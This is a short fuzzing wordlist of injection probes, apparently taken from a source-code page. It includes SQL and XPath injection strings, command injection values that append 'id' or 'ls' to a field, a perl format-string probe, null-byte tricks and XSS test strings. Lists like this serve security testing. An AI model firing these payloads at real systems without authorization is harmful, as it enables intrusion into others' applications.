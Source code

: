 \x27UNION SELECT
\x27\x4F\x52 SELECT *
\x27\x6F\x72 SELECT *
\x3C
\x3D \x27
\x3D \x3B'
\x3c
^&apos;
^'
`
`/usr/bin/id`
`dir`
`id`
`perl -e 'print ".%p" x 80'`%n
`ping 127.0.0.1`
a);/usr/bin/id
a);/usr/bin/id;
a);/usr/bin/id|
a);id
a);id;
a);id|
a)|/usr/bin/id
a)|/usr/bin/id;
a)|id
a)|id;
a;/usr/bin/id
a;/usr/bin/id;
a;/usr/bin/id|
a;id
a;id;
a;id|
http://<yourservername>/
id%00
id%00|
insert
like
limit
null
or
or 0=0 #
or 0=0 --
or 1=1--
or%201=1
or%201=1 --
response.write 111111
something%00html
update
x' or 1=1 or 'x'='y
x' or name()='username' or 'x'='y
xsstest
xsstest%00"<>'
{&apos;}
|/usr/bin/id
|/usr/bin/id|
|id
|id;
|id|
|ls
|ls -la